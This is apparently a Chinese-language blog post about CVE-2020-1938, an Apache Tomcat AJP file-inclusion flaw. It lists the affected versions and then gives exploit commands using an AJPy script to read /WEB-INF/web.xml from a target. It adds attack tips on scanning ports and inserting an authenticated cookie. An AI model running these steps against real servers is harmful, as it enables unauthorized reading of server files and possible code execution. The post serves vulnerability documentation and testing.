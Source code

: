 ```yaml
---
title: CVE-2020-1938 文件包含漏洞
tags: 
- CVE
- 漏洞
top_img: /img/yangb.png
cover: /img/CVE.png
---
```


## 漏洞说明
该漏洞是由于Tomcat AJP协议存在缺陷而导致，攻击者利用该漏洞可通过构造特定参数，读取服务器webapp下的任意文件。若目标服务器同时存在文件上传功能，攻击者可进一步实现远程代码执行。目前，厂商已发布新版本完成漏洞修复。

受影响版本

* Apache Tomcat 6  
* Apache Tomcat 7 < 7.0.100  
* Apache Tomcat 8 < 8.5.51
* Apache Tomcat 9 < 9.0.31

不受影响版本

* Apache Tomcat = 7.0.100
* Apache Tomcat = 8.5.51
* Apache Tomcat = 9.0.31

## Exp 漏洞利用
```sh
$ git clone git@github.com:yangb92/AJPy.git
$ cd AJPy
$ python tomcat.py read_file --webapp=manager /WEB-INF/web.xml 172.17.0.2
```
> 实战经验: 
>1. 如果目标默认的AJP端口改变, 扫描所有开放端口，逐个进行测试。改变默认端口参数： --port=8812
>2. 如果目标出现302授权跳转，需要在tomcat.py/perform_request函数提供默认参数headers={"cookie":"xxx"},添加已认证的cookie
